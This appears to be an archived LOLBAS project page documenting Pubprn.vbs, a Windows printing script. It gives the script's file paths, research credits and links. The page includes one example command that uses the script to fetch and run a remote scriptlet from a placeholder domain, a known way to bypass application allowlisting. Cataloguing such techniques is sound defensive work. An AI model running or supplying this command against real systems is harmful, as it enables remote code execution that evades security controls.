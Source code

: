# UPDATE BOOKMARKS - PROJECT MOVED TO A DEDICATED PROJECT SITE. THIS SITE WILL NOT BE UPDATED ANYMORE, BUT WILL BE KEPT FOR HISTORICAL REASONS.
New site: https://github.com/LOLBAS-Project/LOLBAS
Web portal: https://lolbas-project.github.io/ 
## Pubprn.vbs

* Functions: Execute

```
pubprn.vbs 127.0.0.1 script:https://domain.com/folder/file.sct
```

Acknowledgements:
* Matt Nelson - @enigma0x3

Code sample:
* [Pubprn_calc.sct](Payload/Pubprn_calc.sct)

Resources:
* https://enigma0x3.net/2017/08/03/wsh-injection-a-case-study/
* https://www.slideshare.net/enigma0x3/windows-operating-system-archaeology
* https://github.com/enigma0x3/windows-operating-system-archaeology

Full path:
```
C:\Windows\System32\Printing_Admin_Scripts\en-US\pubprn.vbs
C:\Windows\SysWOW64\Printing_Admin_Scripts\en-US\pubprn.vbs
```

Notes:



 
